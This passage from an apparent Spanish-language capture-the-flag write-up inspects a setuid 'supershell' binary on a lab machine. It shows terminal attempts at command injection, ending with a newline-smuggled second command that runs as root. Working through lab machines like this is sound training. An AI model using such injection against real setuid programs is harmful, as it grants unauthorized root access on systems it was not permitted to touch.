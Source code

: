 ```bash
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got.plt
.data
.bss
.comment
decoder@charon:/$
```

De las cadenas imprimibles del binario, ya debemos de ver que se hace uso de `/bin/ls` de manera absoluta, es decir, no se hace el llamado a la función `ls` tal cual, si no que se escribe de forma absoluta su ruta; así que vamos a tratar de ocuparla.

```bash
decoder@charon:/$ /usr/local/bin/supershell /bin/ls
Supershell (very beta)
++[/bin/ls]
bin   dev  home        initrd.img.old  lib64    media  opt      root  sbin  srv  tmp  var      vmlinuz.old
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   snap  sys  usr  vmlinuz
decoder@charon:/$ 
decoder@charon:~$ /usr/local/bin/supershell /bin/ls;whoami
Supershell (very beta)
++[/bin/ls]
decoder.pub  pass.crypt  user.txt
decoder
decoder@charon:~$ /usr/local/bin/supershell "/bin/ls;whoami"
Supershell (very beta)
decoder@charon:~$ /usr/local/bin/supershell "/bin/ls;$(whoami)"
Supershell (very beta)
decoder@charon:~$ /usr/local/bin/supershell "/bin/ls$(whoami)"
Supershell (very beta)
++[/bin/lsdecoder]
sh: 1: /bin/lsdecoder: not found
decoder@charon:~$ /usr/local/bin/supershell "/bin/ls$/
> whoami
> "
Supershell (very beta)
++[/bin/ls$/
whoami
]
sh: 1: /bin/ls$/: not found
root
decoder@charon:~$
```
